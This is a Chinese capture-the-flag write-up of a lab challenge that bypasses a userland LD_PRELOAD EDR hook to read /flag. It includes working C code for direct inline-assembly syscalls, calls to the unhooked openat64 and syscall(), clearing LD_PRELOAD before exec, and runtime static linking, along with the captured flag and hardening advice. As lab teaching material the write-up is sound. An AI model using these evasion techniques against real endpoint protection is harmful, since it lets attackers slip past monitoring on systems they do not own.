# 4-3 内网渗透与高级社工 · 终端 EDR 绕过（用户态 libc hook 下直发 syscall 读文件）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-终端EDR绕过-G3（sectionID 7273，实战 Flag 题 11241） |
| 分类 | 内网渗透 / 终端 EDR 绕过 / 用户态 API Hook 规避（绕过 libc 符号层直发系统调用） |
| 题目描述 | 目标主机的 EDR 代理改用**用户态 API 挂钩**：在进程内劫持 libc 的文件访问封装（`open`/`openat`/`fopen` 等），对敏感文件的访问直接拒绝，子进程继承同样的挂钩。运维程序改为**提交 C 源码由主机编译并执行**，需要写一段**绕开用户态 hook** 就能读取 `/flag` 的程序。 |

Flag 题（questionID=11241）题干原文：

> 目标主机的终端检测响应（EDR）代理采用用户态 API 挂钩：在进程内劫持 libc 的文件访问封装（`open`/`openat`/`fopen` 等），对敏感文件的访问直接拒绝。运维程序改为提交 C 源码由主机编译执行。你需要写一段能绕过用户态 hook、读取 `/flag` 的程序。

Note：本题章节 `sectionFiles` 为空，**没有**附件材料（同系列的 G1 曾附教学 WriteUp 与概念材料，G3 无）。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID 1639（<https://vmc.hust.edu.cn>） |
| 章节 | 内网渗透与高级社工-终端EDR绕过-G3（课程 number=16），sectionID `7273`，experimentID `1415` |
| 环境 / 实例 | C085-G3-F（envID `1415`，镜像 `t-11637/c085-g3-f:2026`），podID `0dfdj24z7yg3vt72zupmwnomw`，交付时 state=Running |
| 靶机 Web | HTML `<title>` 为「主机运维执行面板」，页面可见标题为「自定义采集程序 · 用户态 API 监控已启用」；`http://172.17.0.13:12154/`（nginx 反代到容器内 `127.0.0.1:8000` 的 Python `http.server`，页面 `POST /run`，JSON 字段 `src`） |
| SSH | `172.17.0.13:12153`（本机无口令，本次全程未使用；本题只需 Web 交互） |
| 靶机系统 | Debian GNU/Linux 13 (trixie)；运行用户 `uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)` |
| 面板源码 / EDR 组件 | `/opt/app/app.py`（7294 B，任意用户可读）；hook 库 `/opt/edr/hook.so`（16088 B，`sha256=affd30825782f1e482cb117b1da5fd2897e5030c681e4db6c61624dd9ae863df`）与**源码** `/opt/edr/hook.c`（3554 B，对 `ctf` 用户可读） |
| /flag | `-rw-r--r-- 1 root root` 38 字节（37 字符 + 结尾换行），`ctf` 用户可直接读取 |
| 题型 | 3 道单选（11165 / 11167 / 11169）+ 1 道多选（11171）+ 1 道 Flag 填空（11241） |
| 账号 | 平台账号口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或私有地址 |
| 操作方式 | HTTP JSON 提交 C 源码到 `/run`，主机编译并回显 stdout+stderr（本地辅助脚本 `probe_src.py`，请求走 `urllib` 无代理）；截图用 headless Chrome（playwright-core）采集 |
| 备注 | 选择题与 Flag 题均已提交，`GET /api/student/get/answerHistory?sectionID=7273&contestMode=0` 复核 5 题 `isCorrect=true`（判分页见步骤 11）；5 题**首次提交即全部判对**，未触发 G2 那种「多选组合试探 + 整卷重提」流程；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 侦察面板：从「下发命令」换成「提交 C 源码」（截图 01）

打开 `http://172.17.0.13:12154/`，页面可见标题「自定义采集程序 · 用户态 API 监控已启用」（HTML `<title>` 仍是「主机运维执行面板」，与 G1/G2 面板同源），正文自述：

> 目标主机的 EDR 代理在进程内挂钩了 libc 的文件访问 API（open / openat / fopen 等），对敏感文件的访问会被实时拦截，子进程也会继承同样的挂钩。运维程序改为提交 C 源码，由主机编译并执行。

与前两题的交互方式完全不同：G1 是「命令行特征审计」、G2 是「进程行为监控」，都还是一个命令输入框；G3 的页面**只有一个 C 源码编辑器**（标签页 `probe.c`，预置 5 行空壳代码）和一个「运行」按钮，终端区域留空。前端逻辑是把编辑器内容 POST 到 `/run`：

```javascript
fetch('/run', { method: 'POST', body: JSON.stringify({ src }) })
// 返回 {"output": ...} → 显示运行输出；{"compile_error": ...} → 显示编译错误
```

所以本轮的「命令行」统一是提交一段 C 源码：

```bash
curl -sS --noproxy '*' -X POST http://172.17.0.13:12154/run \
  -H 'Content-Type: application/json' -d '{"src":"<C 源码>"}'
```



### 2. 基线对照：libc 封装直读 `/flag` 一律被拒（截图 02）

先用最小对照程序确认「防御到底拦什么」——分别走 `fopen` 与 `open` 读 `/flag`：

```c
// demo/02_deny.c
FILE *f = fopen("/flag", "r");        /* libc fopen -> hook */
printf("fopen(/flag) -> %s (errno=%d)\n", f ? "OK" : "FAIL", errno);
int fd = open("/flag", O_RDONLY);     /* libc open  -> hook */
printf("open(/flag)  -> %s (errno=%d)\n", fd >= 0 ? "OK" : "FAIL", errno);
```

回显：

```text
fopen(/flag) -> FAIL (errno=13)
open(/flag)  -> FAIL (errno=13)
__EDR_ALERT__ userland hook blocked fopen("/flag")
__EDR_ALERT__ userland hook blocked open("/flag")
```

两条路都被 `errno=13 EACCES` 拒绝，并在 stderr 打出 `__EDR_ALERT__`。注意告警里 `%s` 后面的 `("/flag")` 是**固定文案**（不随实际请求路径变化，步骤 5 的别名请求同样打印 `("/flag")`），所以这里泄露的只是「哪个函数被拦」，不是路径。这一步确立了后面的判定基准：**经过 libc 文件封装的调用全部可见、全部被拒**。



### 3. 机制确认：hook 靠 `LD_PRELOAD` 注入并已映射进进程（截图 03）

要确认拦截发生在「libc 符号层」而不是内核里，先看进程自身的加载状态：

```c
// demo/03_mech.c
printf("LD_PRELOAD = %s\n", getenv("LD_PRELOAD"));
system("grep -E 'hook.so|libc.so' /proc/self/maps | sed 's/^/  /'");
system("ls -l /opt/edr/ | sed 's/^/  /'");
```

回显（节选，同一次输出里 `libc.so.6` 的 5 段映射已略）：

```text
LD_PRELOAD = /opt/edr/hook.so
  7f7ece30f000-7f7ece310000 r--p 00000000 fd:10 280313003   /opt/edr/hook.so
  7f7ece310000-7f7ece311000 r-xp 00001000 fd:10 280313003   /opt/edr/hook.so
  7f7ece311000-7f7ece312000 r--p 00002000 fd:10 280313003   /opt/edr/hook.so
  7f7ece312000-7f7ece313000 r--p 00002000 fd:10 280313003   /opt/edr/hook.so
  7f7ece313000-7f7ece314000 rw-p 00003000 fd:10 280313003   /opt/edr/hook.so
  total 20
  -rw-r--r-- 1 root root  3554 Aug 15 12:16 hook.c
  -rwxr-xr-x 1 root root 16088 Aug 15 12:24 hook.so
```

三点确认：`LD_PRELOAD` 指向 `/opt/edr/hook.so`；`/proc/self/maps` 里该库已按 **5 段** 常规权限映射进本进程（`r--p` / `r-xp` / `r--p` / `r--p` / `rw-p`）；而且 `/opt/edr/` 目录下的 **`hook.c` 源码对 `ctf` 用户可读**——拦截逻辑等于随题附送。



### 4. 源码确认：只 hook 5 个 libc 符号 + `realpath` 归一化比对（截图 04）

既然 `hook.c` 可读，直接把它读出来，不再靠猜（提交 `demo/04_hooksrc.c`，内部执行）：

```text
grep -n -E '^(int|FILE)|__EDR_ALERT__|realpath|readlink|RTLD_NEXT' /opt/edr/hook.c
```

关键行：

```text
19:    fprintf(stderr, "__EDR_ALERT__ userland hook blocked %s(\"/flag\")\n", fn);
28:        if (realpath(path, rp) && strcmp(rp, "/flag") == 0)
40:        ssize_t k = readlink(link, base, sizeof(base) - 1);
46:    if (realpath(joined, rp) && strcmp(rp, "/flag") == 0)
55:int open(const char *path, int flags, ...) {
58:        real = dlsym(RTLD_NEXT, "open");
71:int open64(const char *path, int flags, ...) {
87:int openat(int dirfd, const char *path, int flags, ...) {
103:FILE *fopen(const char *path, const char *mode) {
115:FILE *fopen64(const char *path, const char *mode) {
```

**被 hook 的符号一共 5 个**，命中后统一 `errno = EACCES(13)`、`return -1`/`NULL`，并向 stderr 写 `__EDR_ALERT__`：

| 被 hook 的符号 | 命中后行为 |
| --- | --- |
| `open`、`open64`、`openat`、`fopen`、`fopen64` | `errno = EACCES(13)`；返回 `-1` / `NULL`；stderr 写 `__EDR_ALERT__ userland hook blocked <fn>("/flag")` |

路径判定函数 `hit_flag_at()` 做的是**归一化后的黑名单比对**：

```c
static int hit_flag_at(int dirfd, const char *path) {
    char rp[PATH_MAX];
    if (!path) return 0;
    if (path[0] == '/') {
        if (realpath(path, rp) && strcmp(rp, "/flag") == 0) return 1;
        return strcmp(path, "/flag") == 0;              /* realpath 失败时的字面量兜底 */
    }
    char base[PATH_MAX], joined[PATH_MAX * 2];
    if (dirfd == AT_FDCWD) {
        if (!getcwd(base, sizeof(base))) return 0;       /* 相对路径 -> 用 cwd 拼 */
    } else {
        char link[64];
        snprintf(link, sizeof(link), "/proc/self/fd/%d", dirfd);
        ssize_t k = readlink(link, base, sizeof(base) - 1);   /* dirfd -> 反查真实路径 */
        if (k <= 0) return 0;
        base[k] = 0;
    }
    snprintf(joined, sizeof(joined), "%s/%s", base, path);
    if (realpath(joined, rp) && strcmp(rp, "/flag") == 0) return 1;
    return 0;
}
```

`realpath()` 会把 `//flag`、`/./flag`、`/proc/self/root/flag`、符号链接别名一律还原成 `/flag`，`getcwd()+拼接` 覆盖相对路径，`readlink(/proc/self/fd/N)` 覆盖「已持有 fd 再用 dirfd 形式重新打开」。**判定很严，但它发生在 libc 符号内部**——这就是整层的根本边界，`hook.c` 头部注释本身就是题眼：

> 对应 Windows EDR 的 ntdll inline hook / AMSI：只能看见走 libc 符号的调用，直接 syscall 会绕过整层 hook。

同时从可读的 `/opt/app/app.py` 读到运行方式（`build_and_run`）：

```python
d = tempfile.mkdtemp(prefix="edr", dir="/tmp")     # 每次运行一个 /tmp/edrXXXXXX，不清理
open(cpath, "w").write(src)
cc = subprocess.run(["gcc", "-O0", "-w", "-o", bpath, cpath], timeout=20)
env = dict(os.environ, LD_PRELOAD=HOOK)            # HOOK = "/opt/edr/hook.so"
p = subprocess.run([bpath], capture_output=True, text=True, timeout=10, env=env, cwd=d)
return {"output": (p.stdout + p.stderr)[:8000]}    # stderr 统一拼在 stdout 之后
```

四个约束值得记住：编译固定 `gcc -O0 -w`（**不能传 `-static`**）；`LD_PRELOAD` 走**环境变量**注入（会被子进程继承）；运行时 cwd 是临时目录、超时 10 秒、输出截断 8000 字符。



### 5. 十次失败尝试：把「换一种写法指向同一文件」的路子试干净

判定是「归一化后与 `/flag` 比对」，那就先把路径层面的变形与别名全试一遍（探针 `probes/p5_entrypoints.c`、`probes/p6_coverage_matrix.c`）。结果全部无效，过程如实保留：

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | `fopen` / `open` / `open64` / `openat` 直读 `/flag` | 全部 `errno=13 EACCES`，stderr 两条 alert（截图 02） | 命中 hook 黑名单判定，函数内直接 `return -1` | 改走不经 libc 封装的路径（见步骤 6） |
| 2 | `creat("/flag", 0644)` | `errno=13` + alert `open` | glibc 的 `creat` 内部调用 `open` 符号，仍被覆盖 | 说明覆盖面比源码显式列出的 5 个符号更宽（间接调用同样命中） |
| 3 | `symlink("/flag","/tmp/lnk43")` 后 `open("/tmp/lnk43")` | `errno=13` + alert | `realpath()` 归一化后就是 `/flag` | 符号链接别名类绕法无效（测试后已 `unlink`） |
| 4 | `chdir("/")` + `open("flag")`（相对路径） | `errno=13` + alert | 相对路径分支用 `getcwd()` 拼出绝对路径再比对 | 相对路径绕法无效 |
| 5 | `/proc/self/root/flag`、`/./flag`、`//flag` | 全部 `errno=13` + alert | `realpath()` 全部还原为 `/flag` | 变形路径无效 |
| 6 | `open("/flag/")` | `errno=20 ENOTDIR`，**无** alert | `realpath("/flag/")` 失败 → 未命中 → 放行；但内核本身也打不开目录形式的文件 | 「realpath 失败即放过」是判定逻辑的固有分支，但该分支打不开文件，无利用价值 |
| 7 | 先用内联汇编拿到 `/flag` 的 fd，再 `fopen("/proc/self/fd/<fd>")` | `errno=13` + alert | 该路径以 `/` 开头，走绝对路径分支：`realpath()` 顺着 `/proc/self/fd/N` 符号链接解析回 `/flag`（源码另有一个 `readlink("/proc/self/fd/%d")` 分支专门处理 `openat` 的 `dirfd` 形式） | `/proc/self/fd` 借道无效（`dirfd` 形式同理） |
| 8 | 硬链接别名：`linkat(AT_FDCWD,"/flag",AT_FDCWD,"/tmp/hl43",0)` | `errno=1 EPERM` | 内核 `protected_hardlinks`（非属主/无写权限不得硬链接他人文件） | 该手法在本题容器内不可用（测试后已 `unlink`） |
| 9 | 用 `strings` 式线性扫描 `hook.so` 找符号 | 只看到 `fopen`/`fopen64`/`openat`，**没看到 `open`/`open64`**，一度误以为 `open` 未被 hook，与实测（`open` 也被拦）矛盾 | `.dynstr` 做了**后缀合并**：`open` 指向 `fopen`+1 的偏移、`open64` 指向 `fopen64`+1，线性扫描不会把它们当成独立字符串 | 改为直接读**可读的 `hook.c` 源码**确认真实符号集合，矛盾消除（步骤 4） |
| 10 | 静态链接验证程序第一版把生成代码写成 `printf("[static] %%s", c)` | 输出字面 `%s` 而不是 flag | `%%` 只在 `printf` 的**格式串**里有转义含义；写进字符串字面量时它就是两个 `%` | 改成 `%s` 后输出正常（`demo/09_static.c`） |

截图对应：第 1 条 → 截图 02；其余为命令行/探针实测（过程记录留存，未单独截图）。

这十条合起来给出一个明确结论：**判定逻辑本身没有可利用的写法漏洞**，别名、相对路径、`/proc` 借道都被归一化堵死；真正的空间不在「路径怎么写」，而在「调用走不走 libc 符号」。

### 6. 主题解法：内联汇编直发 syscall，从 libc 符号层下面穿过去（截图 05）

既然 hook 只在 5 个 libc 符号里生效，那就**根本不调用这些符号**，直接执行 `syscall` 指令：

```c
// demo/05_bypass_asm.c
static long sc(long n, long a, long b, long c){
    long r;
    __asm__ volatile("syscall" : "=a"(r)
                     : "a"(n), "D"(a), "S"(b), "d"(c) : "rcx", "r11", "memory");
    return r;
}
int main(void){
    char buf[128];
    long fd = sc(257, -100, (long)"/flag", 0);   /* 257=openat, -100=AT_FDCWD */
    if (fd < 0) { printf("openat failed\n"); return 1; }
    long n = sc(0, fd, (long)buf, 127);          /* 0=read */
    buf[n] = 0;
    printf("[inline asm syscall] /flag = %s\n", buf);
    return 0;
}
```

回显：

```text
[inline asm syscall] /flag = vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}
```

原理：参数按 x86_64 系统调用约定直接放进寄存器（`rax`=调用号 257=`openat`，`rdi`=`AT_FDCWD(-100)`、`rsi`=路径、`rdx`=`O_RDONLY(0)`），`syscall` 指令把控制权交给内核入口，**全程没有经过 `open`/`openat`/`fopen` 里任何一层 libc 封装**——hook 的判定代码根本没机会执行。因此不仅读到了文件，而且**一条 `__EDR_ALERT__` 都没有**。这与 `hook.c` 头部注释自述的边界完全一致，也说明该防护的观测点就是「libc 符号调用」本身，而不是内核里的那次真实 `openat`。



### 7. 备选一：libc 的 `syscall()` 通用入口没有被覆盖（截图 06）

glibc 的 `syscall()` 是通用系统调用转发器，hook 并没有覆盖这个符号，于是也能读通，且同样无告警：

```c
// demo/06_bypass_syscall.c
long fd = syscall(SYS_openat, AT_FDCWD, "/flag", O_RDONLY);
long n = fd < 0 ? -1 : syscall(SYS_read, fd, b, 127);
printf("[syscall() wrapper] /flag = %s\n", b);
```

```text
[syscall() wrapper] /flag = vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}
```

它的意义在于说明：hook 的「覆盖」是逐符号的，**同一语义只要还有别的入口没被列进名单，防线就等于不存在**。



### 8. 备选二：`openat64` 不在覆盖名单里（截图 07）

`hook.c` 只覆盖 `open/open64/openat/fopen/fopen64`，而 glibc 还有一条 `openat64` 封装路径，实测确实没被拦：

```c
// demo/07_openat64.c
int fd = openat64(AT_FDCWD, "/flag", O_RDONLY);
printf("openat64(/flag) fd=%d\n", fd);
```

```text
openat64(/flag) fd=3
[openat64 not hooked] /flag = vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}
```

这条是**纯粹的覆盖缺口**：不需要任何技巧，只需要知道名单里漏了谁——而名单就在可读的 `hook.c` 里。



### 9. 备选三：清掉 `LD_PRELOAD` 再 `exec`（截图 08）

hook 是靠**环境变量**注入的，而环境变量会被子进程继承——这既是「子进程继承挂钩」的实现方式，也是绕过面：

```c
// demo/08_child.c（节选，原程序在 fork 前另打印一行 tag 与 fork+execl 提示）
static void run(const char *tag, int clear){
    pid_t p = fork();
    if (p == 0) { if (clear) unsetenv("LD_PRELOAD");
                  execl("/bin/cat", "cat", "/flag", (char *)0); _exit(127); }
    int st; waitpid(p, &st, 0);
    printf("[%s] cat exit=%d\n", tag, WEXITSTATUS(st));
}
run("A inherit LD_PRELOAD", 0);
run("B unsetenv(LD_PRELOAD)", 1);
```

回显（stderr 统一拼在 stdout 之后）：

```text
[A inherit LD_PRELOAD] fork + execl(/bin/cat /flag)
[A inherit LD_PRELOAD] cat exit=1
[B unsetenv(LD_PRELOAD)] fork + execl(/bin/cat /flag)
vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}
[B unsetenv(LD_PRELOAD)] cat exit=0
__EDR_ALERT__ userland hook blocked open("/flag")
cat: /flag: Permission denied
```

A 组（继承 `LD_PRELOAD`）的 `cat` 在**子进程里**打出 alert 并被拒（exit=1）；B 组先 `unsetenv("LD_PRELOAD")`，子进程根本没加载 `hook.so`，`cat` 直接输出 flag（exit=0）。**用环境变量承载安全边界，等于把开关交给被执行方。**



### 10. 备选四：运行时自行编译静态链接程序（截图 09）

面板固定 `gcc -O0 -w`，**传不了 `-static`**；但程序自己可以在靶机上再调一次 `gcc`：

```c
// demo/09_static.c（节选）
fputs("#include <stdio.h>\nint main(void){FILE*g=fopen(\"/flag\",\"r\");...}\n", f);
system("gcc -static -O0 -o /tmp/s43 /tmp/s43.c");
/* fork + execl("/tmp/s43") */
unlink("/tmp/s43"); unlink("/tmp/s43.c");
```

```text
[static] vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}
(static child exit=0)
cleaned /tmp/s43 /tmp/s43.c
```

静态链接程序不经过动态链接器，`LD_PRELOAD` 完全不生效——**注入机制本身被绕开**，而不是符号被绕过。程序在同一次运行内自行清理了 `/tmp/s43`、`/tmp/s43.c`。



六种方案汇总（含未实测项）：

| 方案 | 原理 | 实测结果 | 结论 |
| --- | --- | --- | --- |
| ① 内联汇编直发 syscall | `syscall` 指令直接进内核，不调用任何 libc 封装 | ✅ 读出 flag，**无 alert** | **本题首选标准答案**：绕过的就是「用户态符号层」 |
| ② glibc `syscall()` 通用入口 | hook 未覆盖该符号 | ✅ 读出 flag，无 alert | 有效，但依赖「hook 恰好没覆盖 `syscall`」 |
| ③ `openat64` | 同一语义的另一条 glibc 封装路径未被列入名单 | ✅ 读出 flag，无 alert | **覆盖缺口**：漏一个符号等于没防 |
| ④ 清除 `LD_PRELOAD` 后 `exec` | 子进程不加载 hook.so | ✅ 子进程 `cat` 直接读出 flag；对照组被拦 | 暴露「用环境变量做安全边界」的脆弱性 |
| ⑤ 运行时 `gcc -static` | 静态链接不进动态链接器 | ✅ `[static] vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}` | 面板虽禁 `-static`，程序可自己在靶机上编译 |
| ⑥ GOT/PLT 恢复、`ptrace` 注入、替换 hook.so 等 | 理论手法 | — | **未实测**，仅记录为理论面，不作为结论 |

### 11. 提交答案与平台判分（截图 10）

拿到 flag 后一次性提交 5 题：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7273" \
  -F 'answers={"questionID":11165,"answer":"{\"answer\":[\"D\"],\"num\":1}"}' \
  -F 'answers={"questionID":11167,"answer":"{\"answer\":[\"A\"],\"num\":1}"}' \
  -F 'answers={"questionID":11169,"answer":"{\"answer\":[\"C\"],\"num\":1}"}' \
  -F 'answers={"questionID":11171,"answer":"{\"answer\":[\"A\",\"B\",\"C\",\"D\"],\"num\":4}"}' \
  -F 'answers={"questionID":11241,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}\"]}"}' \
  -F "contestMode=0"
# code=0, msg=success
```

`GET /api/student/get/answerHistory?sectionID=7273&contestMode=0` 复核结果：5 项 `isCorrect: true`。

| questionID | 题型 | 提交内容 | 答案要点 | isCorrect |
| --- | --- | --- | --- | --- |
| 11165 | 单选 | `{"answer":["D"],"num":1}` | Win32 API 经 `kernel32.dll` → `ntdll.dll` 逐层封装，最终由 `ntdll.dll` 存根发起系统调用 | true |
| 11167 | 单选 | `{"answer":["A"],"num":1}` | AMSI 由脚本宿主在执行前主动调用，把待执行内容交给已注册的安全提供程序实时扫描 | true |
| 11169 | 单选 | `{"answer":["C"],"num":1}` | 对可疑进程的虚拟内存空间扫描，找未关联磁盘文件的可执行代码段与异常内存权限 | true |
| 11171 | 多选 | `{"answer":["A","B","C","D"],"num":4}` | IAT Hook、Inline Hook、ETW 订阅、动态链接器符号解析优先级覆盖（LD_PRELOAD/DLL shim）均属 EDR 常用手段 | true |
| 11241 | Flag 填空 | `{"num":3,"answer":["","","vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}"]}` | 内联汇编直发 `syscall` 读 `/flag`（详见步骤 6） | true |

平台答题页 5 处显示「作答正确」。顶层 `scoreRate` 为 `None`，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准；**5 题首次提交即全部判对**，因此本题没有用到 G2 那种「多选逐组合试探 + 整卷重提刷新」的流程。



### 12. 教学问答：用户态 hook 与内核态监控的边界（截图 11–16）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 6 个问题（每题新开会话，会话 5277–5282），问答原文另存 `.local/process/4-3-qa-transcript.json`：

**问题 1：用户态 API Hook 与内核态监控（auditd/eBPF）在可见性与绕过难度上的本质差异，为什么直接 syscall 能绕过整层 hook**（截图 11）——**回答准确**：用户态 Hook 只看得到经 API 符号发起的调用，直接执行 `syscall` 指令不经过这层拦截；内核态监控覆盖全部系统调用、绕过难度高。与本题实测完全一致（内联汇编成功且无 alert，截图 05）。



**问题 2：`LD_PRELOAD` 注入原理、`dlsym(RTLD_NEXT)` 的作用、只用 `realpath()` 归一化的漏点**（截图 12）——`LD_PRELOAD` 与 `dlsym(RTLD_NEXT)` 部分准确（动态链接器优先加载预加载库，符号解析先命中其中的同名定义；`RTLD_NEXT` 用于取「当前库之后」的真实函数以便链式调用）。**但漏点分析不成立**：模型称「若 `realpath()` 只针对 `open()`，则 `fopen()` 可能被绕过」——实测 hook **同时覆盖** `open`/`open64`/`openat`/`fopen`/`fopen64`（截图 02 的两条 alert 即为证据），`fopen` 并不会因此绕过；模型也完全没有提到真正的覆盖缺口（`openat64`、`syscall()`、静态链接、清 `LD_PRELOAD`、内联汇编）。

> 口径说明：模型把提问中的假设当成了事实，属概念混淆。本文以源码与实测为准（步骤 4–10）。补充实测细节：`realpath()` 对不存在的路径会失败，hook 对绝对路径有 `strcmp` 兜底、对相对路径没有。



**问题 3：只覆盖 5 个符号时的四种绕过面各自的原因与危害，加固方如何弥补**（截图 13）——四种绕过面的**原因分析正确**（未覆盖的 glibc 入口；静态链接不进动态链接器；`LD_PRELOAD` 只是环境变量；内联汇编不经 libc），与步骤 6–10 的实测一一对应。**加固建议空泛**：「在静态链接程序中手动实现系统调用拦截」「硬件辅助的内存保护」都不可操作；可行方向是把判定下沉到内核/系统调用层（auditd 文件审计、eBPF 追 `sys_enter_openat`、LSM/AppArmor 强制访问控制），而不是在 libc 符号层继续「补符号」。

> 口径说明：该回答的加固措施在本题场景下无法落地，本文按实测结论修正为内核态/强制访问控制方向。



**问题 4：无文件攻击只驻留内存，SOC 应采集哪些数据源、内存扫描与内核事件追踪的优劣**（截图 14）——四类数据源（进程内存扫描 / 内核事件 / 网络遥测 / 持久化配置审计）定位基本正确，与 11169「对可疑进程虚拟内存空间扫描最合适」自洽。**小瑕疵**：ETW 是 Windows 的追踪框架，而本题靶机是 Linux，对应手段应说 eBPF/auditd；模型也没有点出内存扫描的**权限前提**（`ctf` 读不到 root 进程的内存）。

> 口径说明：平台语境偏差（ETW ↔ eBPF/auditd），不影响结论，但引用时需按 Linux 语境改写。



**问题 5：运维面板把用户提交的 C 源码编译后带着 `LD_PRELOAD` 运行，加固清单与单点防护的局限**（截图 15）——四类建议（输入校验 / 权限最小化 / 沙箱隔离 / 审计告警）合理，并明确回答「不能只靠 `LD_PRELOAD` 单点防护」，可作为加固章节素材。**小瑕疵**：把风险描述成「用户能够注入恶意的动态链接库」偏离本题场景（本题是**提交 C 源码**，不是注入 `.so`）；「用正则确保代码不含危险系统调用」在工程上不可行——本题的绕过正是一段内联汇编 `syscall`，静态模式匹配挡不住。

> 口径说明：模型把「提交源码」误当成「注入动态库」，并高估了源码正则校验的作用。



**问题 6：怀疑用户态 Hook 已被绕过或卸载，应急响应应检查哪些痕迹与数据源**（截图 16）——方向合理（`/proc/<pid>/maps` 模块列表、`/etc/ld.so.preload` 与 `LD_PRELOAD`、发现直接 syscall、内核态审计兜底、完整性校验、日志分析），但有**两处事实错误**，以实测反驳：

1. 建议用 `strace` 跟踪系统调用——本题靶机**未安装 strace**（实测 `command -v strace` 无输出，同批还缺 `xxd`）；应急需自备静态工具或改用 auditd/eBPF。
2. 把 `suricata`/`Zeek` 说成「进程行为分析工具」是错的——二者是**网络**流量检测（NIDS/NSM）工具，不分析主机进程行为。

另外，`md5sum`/`sha256sum` 完整性校验对「hook 被绕过」作用有限（绕过不改动任何文件），只在怀疑 `hook.so` 被替换或篡改时才有意义；真正的兜底是内核态审计（auditd 对 `/flag` 加 `-w` 规则 / eBPF 追 `openat`），与 G2 的结论一致。

> 口径说明：第 1、2 点属事实错误，本文以靶机实测与工具定位为准。第 1 点的 `strace`/`xxd` 缺失来自解题过程的实测记录（未单独截图）。



### 13. 靶机遗留物与清理

| 位置 | 内容 | 是否清理 |
| --- | --- | --- |
| `/tmp/edrXXXXXX/`（每次面板运行一个，含 `prog.c` 与编译产物 `prog`，`0700 ctf:ctf`） | **面板 `app.py` 自身就不清理**临时目录；本次解题（探针 + 截图脚本各跑一轮）累计产生 **38 个** | 已由收尾程序 `rm -rf /tmp/edr*` 全部清理：`[after] /tmp/edr* dirs = 0`、`/tmp` 已空 |
| `/tmp/s43.c`、`/tmp/s43` | 「运行时静态编译」验证程序自建的文件 | 由程序在同一次运行内 `unlink` |
| `/tmp/lnk43` | 符号链接别名测试（指向 `/flag`） | 程序内 `unlink` |
| `/tmp/hl43` | 硬链接测试（`linkat` 返回 EPERM，未创建成功） | 程序内 `unlink` |
| 其它 | 未修改任何配置文件、未安装任何软件、未改动 `/opt/edr`、未使用 SSH、未做提权 | — |

收尾程序把 `/tmp/edr*` 连自己所在的目录一并删除，因此终端多出一行 `sh: 0: getcwd() failed`——属预期现象（其二进制已加载完毕，进程正常退出）。

另需指出：`/opt/edr/hook.c` 与 `/opt/edr/hook.so` 对 `ctf` 用户可读是**题目环境自带的设定**（属靶场设计，不是本次遗留），但本身就是一个应当写进加固建议的问题——hook 源码可读等于把拦截逻辑与覆盖缺口一并交给攻击者。

### 14. 截图脱敏说明

教学问答页面（`11`～`16`）右上角会显示平台账号信息胶囊。为不把个人账号信息带进公开仓库，这 6 张截图对该区域做了**局部涂白 + 标注「账号已脱敏」**的处理（`.local/process/4-3-scripts/mask_account.py`）：仅重绘该胶囊所在的矩形区域（device px 约 `x 2492–2790, y 32–120`），页面其余部分——包括平台导航、会话标题、提问与回答全文——均未改动，会话内容完整可读。`10-平台判分-五题全部正确.png` 属实训平台答题页，其页面结构与仓库中已入库的 4-1/4-2 判分页完全一致（无账号胶囊），故未作处理。

## Flag

```text
vmc{FltanXzRkJ5kKxPbAvLHVj3DBdTPDTPJ}
```

## 总结与心得

### 漏洞原理

1. **把安全边界画在用户态 libc 符号层，是本题防线的根本错位**：hook 判定的是「有没有调用被挂钩的函数」，而攻击者要的是**文件内容**。libc 的 `open`/`fopen` 只是内核 `syscall` 之上的一层薄封装，函数内部再怎么写 `realpath()` 比对，绕开这层封装之后也一行都不会执行——`syscall` 指令直接进内核，中间没有任何用户态代码可挂钩（对应 AI 问答 1）。
2. **逐符号的覆盖名单天然不完备**：同一语义在 glibc 里有多个入口（`open`/`open64`/`openat`/`openat64`/`fopen`/`fopen64`），还外加一个通用的 `syscall()` 转发器。漏掉 `openat64`（步骤 8）或 `syscall()`（步骤 7）就等于没防，而 `creat()` 这种**没被显式列出**的入口因为内部调用 `open()` 反而被拦下（步骤 5 第 2 条）——名单的「漏」与「误」同时存在。
3. **用环境变量承载安全属性极其脆弱**：`LD_PRELOAD` 只是一个环境变量，`unsetenv()` 之后 `fork+exec` 的子进程就不会加载 `hook.so`（步骤 9）；静态链接程序根本不经过动态链接器（步骤 10）。这两条都不需要攻击者理解判定逻辑，只需要知道注入方式。
4. **路径归一化做得再细，也改变不了「调用可见」这个前提**：`realpath()` + `getcwd()` 拼接 + `readlink(/proc/self/fd/N)` 三重归一化，把符号链接别名、相对路径、`/proc/self/root`、`//`、`/./` 六条变形路径全部堵死（步骤 5）。这反过来也说明：**防线严不严与覆盖全不全，是两个独立的维度**——本题恰好是「判定很严、覆盖很窄」。
5. **可读的 hook 源码等于把规则交给攻击者**：`/opt/edr/hook.c` 对 `ctf` 用户可读，被 hook 的 5 个符号、`realpath` 判定、alert 文案全部可直接读到（截图 04）。攻击者不需要任何猜测，直接就能列出「名单之外还有谁」；`.dynstr` 后缀合并导致的线性扫描误判（步骤 5 第 9 条）也只用一次源码阅读就消除了。
